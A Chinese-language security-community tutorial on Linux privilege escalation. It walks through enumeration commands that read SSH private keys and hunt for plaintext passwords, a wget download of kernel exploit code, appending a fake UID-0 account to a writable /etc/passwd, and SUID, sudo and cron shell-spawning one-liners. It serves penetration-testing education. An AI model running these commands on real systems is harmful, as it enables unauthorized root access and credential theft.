# Linux提权由浅入深-先知社区

> **来源**: https://xz.aliyun.com/news/18240  
> **文章ID**: 18240

---

##### 前言

在渗透测试与内网攻防中，提权（Privilege Escalation）是至关重要的一环。尤其在 Linux 环境中，权限的严格划分虽然提升了系统安全性，但一旦攻击者获得了初始访问权限，他们往往会试图通过各种方式实现权限提升，从而控制整个系统、维持持久化访问，甚至横向移动至更多目标。因此，熟悉并掌握 Linux 提权技术，不仅有助于安全研究人员发现并修复潜在风险，也有助于红队在攻防演练中高效突破系统防线。

本篇文章将从实际出发，系统地介绍 Linux 中常见的提权方式，涵盖信息收集、文件权限分析、内核漏洞利用、配置错误利用、SUID 和 sudo 权限滥用、定时任务劫持、Docker 环境逃逸等关键手段。文章不仅强调技术原理，还辅以典型示例和操作命令，帮助读者建立完整的提权知识体系，提升在真实环境中的渗透测试能力与安全防护意识。

### Linux提权原理

Linux 提权主要分为**内核提权**和**其他类型提权**。内核提权的优点是针对存在漏洞的内核版本通常可通用利用，但缺点是稳定性差，易导致 shell 丢失或系统崩溃。常见的提权思路包括：先上传信息收集脚本，枚举系统内核和配置；再结合系统开启的服务，进行有针对性的提权操作。

#### 权限划分

##### 用户和组

用户组在 linux 系统上起着重要作用，它们为选定的用户提供了一种彼此共享文件的简便方法。它们还使系统管理员可以更有效地管理用户权限，因为他们可以将权限分配给组而不是单个用户。

Linux 用户分为管理员和普通用户，普通用户又分为系统用户和自定义用户。

1. 系统管理员：即 root 帐户，UID 号为 0，拥有所有系统权限，它类似于 Windows 系统中的 administrator 帐户，是整个系统的所有者。
2. 系统用户：Linux 为满足自身系统管理所内建的账号，通常在安装过程中自动创建，不能用于登录操作系统。UID 在 1-499 之间(Centos 7 为 1-999 之间)。像上面的 sshd、 pulse 等等用户即是此类用户。它类似于 Windows 中的 system 帐户，当然权限远没有 system 帐户高。
3. 自定义用户：由 root 管理员创建供用户登录系统进行操作使用的账号，UID 在 500 以上(CentOS7 为 1000 以上)。它类似于 Windows 系统中 users 用户组中的帐户。

在 Linux 中的每个用户必须属于一个组，不能独立于组外在 Linux 中每个文件有所有者、所在组、其它组的概念同样，用户组的信息我们可以在 /etc/group 中查看

##### /etc/passwd 文件

在 Linux 的 `/etc/passwd` 文件中每个用户都有一个对应的记录行，它记录了这个用户的一些基本属性。系统管理员经常会接触到这个文件的修改以完成对用户的管理工作。

用户名：密码：用户ID：组ID：用户说明：家目录：登陆之后shell



##### /etc/shadow 文件

`/etc/shadow` 文件是 Linux 系统中用于 **存储用户加密密码及相关账号安全信息** 的配置文件，它是 `/etc/passwd` 的安全扩展。

用户名：加密密码：密码最后一次修改日期：两次密码的修改时间间隔：密码有效期：密码修改到期到的警告天数：密码过期之后的宽限天数：账号失效时间：保留



**加密的密码具有固定格式：** `$id$salt$encrypted`

* id 表示加密算法，1 代表 MD5，5 代表 SHA-256，6 代表 SHA-512
* salt 为盐值，系统随机生成
* encrypted 表示密码的 hash 值

##### 文件权限

在 Linux 系统中，一切皆文件，包括普通文件、目录、设备文件、套接字等。文件权限通过 `rwx`（读、写、执行）三种标志进行控制，对于目录来说，`r` 表示可以查看该目录下的文件列表（如使用 `ls` 命令），`w` 表示可以在该目录下添加、删除、重命名等操作，而 `x` 则表示是否可以进入该目录成为当前工作目录。如果缺少 `x` 权限，即使拥有 `w` 权限，也无法向目录内写入文件。

使用`ls -l`命令可以查看当前目录文件的权限，`ls -la`可以查看当前目录全部文件权限（包括隐藏文件）。



以`-rw-r--r-- 1 root root` 为例，分析每个符号代表的意思。

1. 第一个位置可以有以下符号- : 代表普通文件 d：代表目录 l：代表软链接 b：代表块文件 c：代表字符设备
2. 剩下的表示的是文件所属的权限 rw- 表示文件所拥有者的权限。 r-- 表示文件所在组的用户的权限。 r-- 表示其他组的用户的权限。
3. 后面的数据1代表 如果文件类型为目录，表示目录下的子目录个数。如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数。
4. 后面两个root的分别含义是第一个为该文件所有者为root 用户，第二个表示该文件所在组为root组。

##### 特殊权限

在 Linux 系统中，除了常规的 `rwx` 权限外，还存在三种**特殊权限**：SUID、SGID 和 SBIT，常用于程序或目录的特殊操作控制。

* **SUID（Set User ID）**：应用于可执行文件，当该文件被执行时，临时赋予执行者“文件所有者”的权限，而不是执行者本人的权限，常用于如 `passwd` 等系统命令。
* **SGID（Set Group ID）**：作用类似于 SUID，不过是切换到“文件所属组”的权限；若用于目录，则新创建的文件会自动继承该目录的所属组。
* **SBIT（Sticky Bit）**：主要用于目录，表示**只有文件的所有者或管理员**才有权限删除或修改该目录下的文件，常见于 `/tmp` 目录，用于保护用户的临时文件不被其他用户删除。

### 信息收集

#### 自动化工具

手动输入命令还是很复杂的，一般还是直接上工具。

[github地址](https://github.com/rebootuser/LinEnum)



这里只是简单介绍基本的信息，详细的信息搜集会结合具体的提权方式。

#### 手动收集

##### 查看系统信息

```
# 打印所有可用的系统信息 
uname -a 
# 内核版本
uname -r 
# 系统主机名。
uname -n 
# 查看系统内核架构（64位/32位）
uname -m 
# 内核信息 
cat /proc/version 
# 分发信息 
cat /etc/*-release 
# CPU信息 
cat/proc/cpuinfo 
```

##### 用户和群组

```
# 列出系统上的所有用户
cat /etc/passwd
# 查看 root 用户的本地邮件（可能包含系统通知）
cat /var/mail/root
cat /var/spool/mail/root
# 列出系统上的所有用户组
cat /etc/group
# 列出所有的超级用户账户（UID = 0）
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'
# 查看当前用户
whoami
# 查看当前已登录的用户及其活动
w
# 查看最近登录的用户列表
last
# 查看所有用户的上次登录信息
lastlog
# 查看指定用户的上次登录信息（将 %username% 替换为用户名）
lastlog -u 用户名
```

##### 查找明文密码

```
# 在文件中查找包含 "user"（不区分大小写）的行
grep -i user [filename]
# 在文件中查找包含 "pass"（不区分大小写）的行
grep -i pass [filename]
# 在文件中查找包含 "password" 的行，并显示上下 5 行的内容
grep -C 5 "password" [filename]
# 查找当前目录及子目录中所有 .php 文件，查找其中包含 "var $password" 的行，并显示行号
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

ssh 私钥

```
# 查看当前用户的 SSH 授权密钥
cat ~/.ssh/authorized_keys
# 查看当前用户的 SSH 身份密钥（公钥）
cat ~/.ssh/identity.pub
# 查看当前用户的 SSH 身份密钥（私钥）
cat ~/.ssh/identity
# 查看当前用户的 RSA 公钥
cat ~/.ssh/id_rsa.pub
# 查看当前用户的 RSA 私钥
cat ~/.ssh/id_rsa
# 查看当前用户的 DSA 公钥
cat ~/.ssh/id_dsa.pub
# 查看当前用户的 DSA 私钥
cat ~/.ssh/id_dsa
# 查看 SSH 客户端配置文件
cat /etc/ssh/ssh_config
# 查看 SSH 服务端配置文件
cat /etc/ssh/sshd_config
# 查看 SSH DSA 主机公钥
cat /etc/ssh/ssh_host_dsa_key.pub
# 查看 SSH DSA 主机私钥
cat /etc/ssh/ssh_host_dsa_key
# 查看 SSH RSA 主机公钥
cat /etc/ssh/ssh_host_rsa_key.pub
# 查看 SSH RSA 主机私钥
cat /etc/ssh/ssh_host_rsa_key
# 查看 SSH 主机公钥
cat /etc/ssh/ssh_host_key.pub
# 查看 SSH 主机私钥
cat /etc/ssh/ssh_host_key
```

### Linux提权具体方法

这一部分将重点介绍几种常见且实用的提权方式，包括**内核漏洞提权**、**/etc/passwd 提权**、**Docker 提权**、**定时任务提权**、**SUID 提权**以及**Sudo 提权**等。每种方法都将配合实际示例进行讲解，帮助读者更清晰地理解其利用思路与操作流程。

#### 内核提权

##### 概述

内核漏洞提权是利用 Linux 系统内核中存在的已知安全漏洞，获取 root 权限的一种高效提权方式。由于 Linux 是开源系统，长期以来被广泛研究，暴露出大量内核漏洞。提权过程通常包括三步：收集目标系统的内核版本信息，查找与之对应的可利用漏洞及 EXP，最后执行 EXP 实现权限提升。该方法适用于权限受限的普通用户，提权成功率高，但也可能导致系统不稳定或崩溃，因此在实际操作中需谨慎使用。

##### EXP项目地址

1. <https://github.com/belane/linux-soft-exploit-suggester>
2. <https://github.com/jondonas/linux-exploit-suggester-2>
3. <https://github.com/PenturaLabs/Linux_Exploit_Suggester>
4. <https://github.com/mzet-/linux-exploit-suggester>

在本次演示中，我们将采用 **第四个项目** 。该工具能够根据目标系统的内核版本，快速分析并推荐可用的本地提权漏洞，帮助渗透测试人员识别潜在的提权机会。它是一个高效的漏洞建议工具，适用于漏洞评估和漏洞利用的准备工作。

##### 利用过程

运行脚本会获得系统信息，然后提供可以利用的脚本地址。



**Highly probable**: 评估的内核很可能受到影响，并且 PoC 漏洞利用很可能可以直接使用，无需重大修改。

**Probable**: 利用可能有效，但很可能需要定制 PoC 漏洞利用以适应你的目标。

**Less probable**: 需要额外的手动分析来验证内核是否受到影响。

**Unprobable**: 内核受到影响的可能性极低（该漏洞在工具的输出中未显示）。

下载命令

```
wget https://www.openwall.com/lists/oss-security/2022/08/29/5/1 -O exploit.c
```

然后根据漏洞情况编译运行就可以了。

#### /etc/passwd提权

##### 概述

当系统错误地将 `/etc/passwd` 设置为可写时，攻击者可以向其中添加一个伪造的 root 用户（UID 为 0）。通过这个账号登录后，就能直接获取系统最高权限。该方法简单有效，常见于配置不当的系统或靶机环境中。

##### 利用特征

运行信息收集[工具](https://github.com/rebootuser/LinEnum)后，发现系统给出了明确的提权提示（工具详情在前言提到的文章里面有）。



普通用户检查 `/etc/passwd` 文件权限时，发现该文件对当前用户具有写权限，为后续的提权操作提供了可行入口。具体各个字段代表的信息同样可以参考前言部分的文章。



下面这张图是没有写权限的



##### 利用过程

###### 生成伪造 root 账号密码串

使用 `openssl` 或 `python` 生成一个加密密码，例如密码为 `123456`

```
openssl passwd -1 123456
```


多种方式生成加密密码。

```
# 使用 mkpasswd 生成 SHA-512 哈希值
mkpasswd -m SHA-512 123456
# 使用 Python 中的 crypt 库生成哈希值
python -c 'import crypt; print crypt.crypt("123456", "$6$salt")'
# 使用 Perl 和 crypt 生成哈希值
perl -le 'print crypt("123456", "abc")'
# 使用 PHP 生成哈希值
php -r "print(crypt('123456','123') . ' ');"
```

###### 构造账号条目

例如添加一个名为 `hacker` 的 root 用户

```
hacker:$1$gsScV.jb$NaQjGTtNccPyBYkFQYNad0:0:0:root:/root:/bin/bash
```

###### 追加到 `/etc/passwd` 文件中

使用普通用户直接写入

```
echo 'hacker:$1$gsScV.jb$NaQjGTtNccPyBYkFQYNad0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

###### 切换到新账号

```
su hacker
```

#### Docker提权

##### 概述

Docker 提权是指通过容器配置漏洞或不当设置，突破容器的隔离限制，从而获得宿主机的 root 权限。常见的提权方式包括利用 `--privileged` 标志、挂载宿主机目录、以及内核漏洞等。攻击者可以通过这些漏洞突破容器的安全限制，实现从容器内提权至宿主机。

由于 Docker 提权方式繁多，这里主要关注两种常见的风险：特权容器和挂载宿主机目录的容器。后续将发布更详细的 Docker 提权文章，进一步探讨更多的提权方法。

##### 利用特征

使用`docker ps -a`可以查看container\_id



###### 特权容器

容器如果以 `--privileged` 标志运行，将获得宿主机的几乎所有权限，可能导致提权风险。可以通过以下命令检查容器是否以特权模式运行：

```
docker inspect --format '{{.HostConfig.Privileged}}' <container_id>
```

###### 挂载宿主机目录的容器

如果容器挂载了宿主机的敏感目录（如 `/etc`、`/root` 等），容器中的恶意用户可以直接访问这些目录，从而提升权限。可以通过以下命令查看容器的挂载信息：

```
docker inspect --format '{{json .Mounts}}' <container_id>
```

##### 利用过程

###### 特权容器

如果容器以特权模式运行，容器内的用户将获得几乎与宿主机相同的权限。这意味着容器内的用户能够执行与宿主机相关的操作，甚至修改宿主机的文件系统，带来较高的提权风险。

###### 挂载宿主机目录的容器

当容器挂载了宿主机的敏感目录（如 `/etc`、`/root` 等），容器内的恶意用户可以修改这些目录中的关键文件。特别地，容器中的用户可以通过修改 `/etc/passwd` 等文件实现提权操作，具体方法可以参考\*\*/etc/passwd提权\*\*部分。

#### SUID提权

##### 概述

SUID（Set User ID）是文件权限的一种设置，当一个文件具有 SUID 权限时，执行该文件的用户将临时获得该文件拥有者的权限，通常是 root 权限。这种权限主要用于允许普通用户执行某些高权限的操作，例如访问或修改系统资源。然而，若某些二进制文件或实用程序错误地设置了 SUID 权限，攻击者便可以利用这些文件提升权限，从而获得 root 权限，造成安全风险。因此，正确管理和审查 SUID 权限的文件对于系统安全至关重要。

##### 查找root权限的SUID文件

使用信息收集工具的提示。



查找是否有**以 root 身份执行**的二进制程序（即拥有 SUID 且属主为 root），攻击者可以借助这些程序尝试“越权”执行某些操作，从而**提升自身权限**

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

##### 高危 SUID 程序

以下是一些具有 SUID 权限时常被用于提权的高危可执行文件，这些程序多数收录在 GTFOBins 中，通常可以直接利用提权：

`/usr/bin/find`：利用 -exec 参数执行任意命令，例如 find . -exec /bin/sh ; 即可提权`/usr/bin/vim` 或 `vi`：通过命令模式 :!sh 拿到 root shell`/usr/bin/python` 或 `python3`：使用 os.system("/bin/sh") 或 subprocess 模块执行命令`/usr/bin/perl`：使用 system("/bin/sh") 拿 shell`/usr/bin/env`：可用 env /bin/sh 方式执行 shell`/usr/bin/bash`：如果带有 SUID，可直接提权执行 /bin/bash -p

##### 利用方式

如果通过上面的方法发现了系统中的敏感 SUID 程序，可以查阅相关命令或脚本实现提权操作。除此之外，还可以直接使用一些自动化工具来简化流程。

AutoSUID 是一个开源项目，其主要目标是自动化地收集系统中的 SUID 可执行文件，并尝试查找可用的提权方式。该工具实现了全流程的 100% 自动化，有效提高了提权的效率与成功率。

[GitHub地址](https://github.com/IvanGlinkin/AutoSUID/)

#### Sudo提权

##### 概述

在 Linux 系统中，`sudo` 命令用于让普通用户以其他用户（通常是 root）的身份执行命令。正常情况下，执行 `sudo` 需要输入用户自己的密码，但为了运维方便，管理员可能会在 `sudoers` 文件中配置某些用户或命令为无需密码（NOPASSWD）即可执行。如果这些配置不当，攻击者可能利用它们执行高权限命令，从而实现本地提权，因此 sudo 配置错误常常是提权的关键入口之一。

##### 利用特征

通过信息收集工具可以快速扫描系统中存在的 SUID 程序和 sudo 权限配置。一旦发现存在已知的提权方式，工具通常会直接给出利用建议，例如：


手工测试结果



在正常环境中，系统可能存在多种语言设置，直接手工测试有助于我们理解提权原理和验证工具提示的准确性。不过在实际渗透过程中，面对复杂多变的系统配置，还是建议优先使用信息收集工具，它们可以快速、全面地识别潜在的提权点，大大提升效率和成功率。

##### 提权命令

具体使用哪个命令进行提权，需要参考信息收集工具的扫描结果。根据扫描结果，若发现用户可以通过 `sudo` 执行 Python，通常可以使用以下命令：

```
sudo python -c 'import os; os.system("/bin/bash")'
```

###### 其他命令

```
sudo /bin/bash
# 使用 sudo 启动一个新的 Bash shell。若 sudo 配置允许执行该命令，用户便能获取 root 权限并进入 shell。
sudo /bin/sh
# 与 sudo /bin/bash 类似，使用 sudo 启动一个新的 sh shell。常用于一些环境下无法使用 Bash，但仍能通过其他 shell 提权的情况。
sudo python -c 'import os; os.system("/bin/bash")'
# 通过 Python 的 os.system() 方法执行命令。该命令在 Python 中执行 bash，从而获得一个新的 shell 以提权。
sudo perl -e 'exec "/bin/bash"'
# 利用 Perl 语言中的 exec 函数直接执行 /bin/bash，从而获得 root 权限下的 Bash shell。
sudo vim -c '!sh'
# 使用 vim 编辑器执行命令 !sh 启动一个新的 shell。vim 的 -c 参数用于在启动时执行 Vim 命令，这里使用它来启动 sh shell。
sudo vi -c '!sh'
# 与 sudo vim -c '!sh' 类似，利用 vi 编辑器的 -c 参数执行命令 !sh，从而获得一个新的 shell。
sudo find / -exec /bin/bash \;
# 使用 find 命令遍历系统文件，并通过 -exec 参数执行 /bin/bash。如果 sudo 配置允许执行该命令，就会启动一个 Bash shell。
sudo awk 'BEGIN {system("/bin/sh")}'
# 使用 awk 命令执行系统命令。这里通过 BEGIN 动作直接执行 sh，启动一个新的 shell。
```

#### 定时任务提权

##### 概述

定时任务（cron job）是 Linux 系统中用于定期执行任务的工具，允许系统在指定时间间隔内自动运行命令或脚本。由于 cron 通常以 root 权限执行，如果攻击者能够修改 cron 配置文件或其执行的脚本或二进制文件，就可以利用 root 权限执行任意代码，从而实现提权。攻击者通过获取对定时任务的控制，能够在系统中以 root 权限运行恶意代码，造成严重的安全威胁。因此，定时任务的安全配置和监控在系统管理中至关重要。

##### 利用特征

前期信息搜集工具发现定时任务里面有test.py的文件



手工查看定时任务的命令`vim /etc/crontab`

查看test.py文件权限，发现任何用户都可写（具体判断方法可以参考前言提到的文章）。



##### 提权命令

```
#!/bin/bash
# 使用 Shell 脚本启动一个新的 bash shell 提权
/bin/bash

#!/usr/bin/python
# 使用 Python 的 os.system 方法执行命令，启动 bash 提权
import os
# 执行 /bin/bash 提权命令
os.system("/bin/bash")

#!/usr/bin/perl
# 使用 Perl 的 exec 方法执行 bash 提权
exec("/bin/bash");

#!/usr/bin/ruby
# 使用 Ruby 的 exec 方法执行 bash 提权
exec("/bin/bash")

#!/usr/bin/lua
-- 使用 Lua 的 os.execute 方法执行 bash 提权
os.execute("/bin/bash")
```
